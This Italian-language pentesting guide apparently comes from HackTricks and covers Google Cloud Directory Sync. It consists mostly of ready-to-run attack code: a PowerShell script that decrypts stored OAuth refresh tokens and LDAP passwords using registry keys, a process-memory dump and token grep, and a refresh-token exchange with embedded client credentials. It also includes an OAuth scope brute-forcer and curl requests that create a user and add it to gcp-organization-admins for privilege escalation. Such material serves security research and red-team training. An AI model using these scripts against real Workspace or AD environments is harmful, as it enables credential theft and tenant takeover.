

# GCDS - Google Cloud Directory Sync

## Informazioni di base

Google Cloud Directory Sync (GCDS) sincronizza i dati della directory, come utenti e gruppi, da LDAP o Active Directory a Google Workspace.<sup>[[1]](#references)</sup>

La sua configurazione utilizza un'autorizzazione OAuth di un super-admin di Google Workspace e un account LDAP con accesso in lettura alla directory.<sup>[[2]](#references)[[3]](#references)</sup> Un server che esegue GCDS può quindi contenere materiale di configurazione di grande valore.

> [!NOTE]
> Per eseguire un **MitM** sul binario **`config-manager.exe`** è sufficiente aggiungere la seguente riga al file `config.manager.vmoptions`: **`-Dcom.sun.net.ssl.checkRevocation=false`**

> [!TIP]
> [**WinPEAS**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) include un controllo GCDS in grado di rilevare l'installazione, leggere i file di configurazione recenti e raccogliere i campi delle credenziali cifrati e i valori di registro relativi alla cifratura.<sup>[[6]](#references)</sup>

Con Active Directory, GCDS supporta solo operazioni limitate sulle password; Google documenta Password Sync come opzione separata per mantenere sincronizzate le password di AD e Google. Quando viene utilizzato SSO, GCDS crea password casuali durante la sincronizzazione.<sup>[[1]](#references)</sup>

<figure><figcaption></figcaption></figure>

### GCDS - Disk Tokens e AD Credentials

La GUI di `config-manager.exe` memorizza le impostazioni di sincronizzazione in file di configurazione XML. Google documenta `Untitled-1.xml` come nome file predefinito nella cartella del profilo dell'utente GCDS su Windows (e `homedir` su Linux); le configurazioni possono anche essere salvate con altri nomi e in altre posizioni.<sup>[[4]](#references)</sup> I segreti relativi alla password e al token OAuth contenuti in questi file sono cifrati, quindi una configurazione esposta deve essere considerata sensibile.<sup>[[5]](#references)</sup>

Su Windows, iniziare da **`C:\Program Files\Google Cloud Directory Sync`** e ispezionare **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** alla ricerca del valore **`open.recent`**, che contiene i percorsi dei file XML aperti di recente.<sup>[[6]](#references)</sup>

Le informazioni più interessanti all'interno del file sarebbero:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Nelle versioni di GCDS esaminate per questa pagina, il refresh token e la password LDAP utilizzano **AES-CBC** con una chiave e un IV generati, archiviati come valori Base64 in **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`**, sotto **`/Encryption/Policy/V2.iv`** e **`/Encryption/Policy/V2.key`**. Il controllo corrente di WinPEAS legge questi valori e l’elenco dei file recenti descritto sopra.<sup>[[6]](#references)</sup>

<details>

<summary>Script PowerShell per decrittografare il refresh token e la password</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

> [!NOTE]
> Google documenta `upgrade-config -exportkeys` e `-importkeys` per spostare il file della chiave di crittografia e la configurazione XML tra macchine.<sup>[[7]](#references)</sup> Se devi confermare i nomi delle opzioni per una build installata, esamina **`DirSync.jar`** cercando `exportkeys` oppure esegui `upgrade-config -help`.

Invece di usare lo script PowerShell, esegui **`C:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** con `-exportkeys` per esportare il materiale della chiave di crittografia. Alcune build espongono la chiave e l'IV in formato esadecimale; controlla l'help dello strumento installato per conoscere l'esatto formato di output, quindi usali con AES/CBC (ad esempio, in CyberChef) per decrittografare i valori catturati.

### GCDS - Dumping dei token dalla memoria

Come con GCPW, il dumping della memoria del processo `config-manager.exe` (la GUI di GCDS) può esporre refresh token e access token se sono già stati generati. Potrebbero essere presenti anche le credenziali AD configurate.

<details>

<summary>Dump dei processi config-manager.exe e ricerca dei token</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all config-manager process IDs
$configManagerProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each config-manager process
foreach ($processId in $configManagerProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\config-manager_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Generazione degli access token dai refresh token

Un refresh token valido può essere scambiato con un access token utilizzando le credenziali del client OAuth che lo ha emesso. L'attuale token endpoint di Google è `https://oauth2.googleapis.com/token` e il refresh flow utilizza `grant_type=refresh_token`.<sup>[[8]](#references)</sup>
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://oauth2.googleapis.com/token
```
### GCDS - Scopes

> [!NOTE]
> Un refresh token è vincolato al grant dell'utente/client OAuth. Un nuovo access token può richiedere solo gli scope inclusi nell'autorizzazione originale.<sup>[[9]](#references)</sup>
>
> Il refresh token non è automaticamente valido per ogni client OAuth.

Usa il catalogo degli scope OAuth di Google per creare dei candidati, quindi testa quali scope può ottenere uno specifico grant; i risultati dipendono dal grant e dal client.<sup>[[9]](#references)[[10]](#references)</sup>

<details>

<summary>Bash script per il brute-force degli scope</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://oauth2.googleapis.com/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

E questo è l'output che ho ottenuto al momento della stesura:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Crea un utente e aggiungilo al gruppo `gcp-organization-admins` per tentare un'escalation in GCP

Le richieste seguenti usano la Directory API per creare un utente e aggiungere tale utente a un gruppo. Il metodo `users.insert` richiede lo scope `admin.directory.user`; `members.insert` richiede uno scope del gruppo, mentre il ruolo `OWNER` concede i poteri di gestione del gruppo, ma deve essere a sua volta un membro del gruppo.<sup>[[11]](#references)[[12]](#references)[[13]](#references)</sup>
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
> [!CAUTION]
> L'esempio di grant non rende automaticamente l'utente creato un Super Admin. La documentazione della Directory API indica la promozione a super-admin come un'operazione separata `users.makeAdmin`, che può essere eseguita solo da un super amministratore esistente.<sup>[[14]](#references)</sup> La possibilità per un determinato token di chiamarla dipende comunque dagli scope concessi e dai permessi dell'account.

## Riferimenti

- [1] [Organizzare i dati LDAP](https://knowledge.workspace.google.com/admin/users/organize-ldap-data)
- [2] [Requisiti di sistema di GCDS](https://knowledge.workspace.google.com/admin/users/gcds-system-requirements)
- [3] [Autorizzare il proprio Google Account](https://knowledge.workspace.google.com/admin/users/authorize-your-google-account)
- [4] [Quali informazioni su GCDS servono prima di contattare il supporto?](https://knowledge.workspace.google.com/admin/users/what-gcds-information-do-i-need-before-contacting-support)
- [5] [Lavorare con i file di configurazione](https://knowledge.workspace.google.com/admin/users/work-with-configuration-files)
- [6] [WinPEAS GCDSInfo.cs](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/winPEAS/Info/CloudInfo/GCDSInfo.cs)
- [7] [FAQ di GCDS](https://knowledge.workspace.google.com/admin/users/gcds-faq)
- [8] [Utilizzare OAuth 2.0 per applicazioni Web Server](https://developers.google.com/identity/protocols/oauth2/web-server)
- [9] [Riferimento API di Google OpenID Connect](https://developers.google.com/identity/openid-connect/reference)
- [10] [Scope OAuth 2.0 per le Google API](https://developers.google.com/identity/protocols/oauth2/scopes)
- [11] [Metodo: users.insert](https://developers.google.com/workspace/admin/directory/reference/rest/v1/users/insert)
- [12] [Metodo: members.insert](https://developers.google.com/workspace/admin/directory/reference/rest/v1/members/insert)
- [13] [Risorsa REST: members](https://developers.google.com/workspace/admin/directory/reference/rest/v1/members)
- [14] [Gestire gli account utente](https://developers.google.com/workspace/admin/directory/v1/guides/manage-users)

{{#include ../../../banners/hacktricks-training.md}}
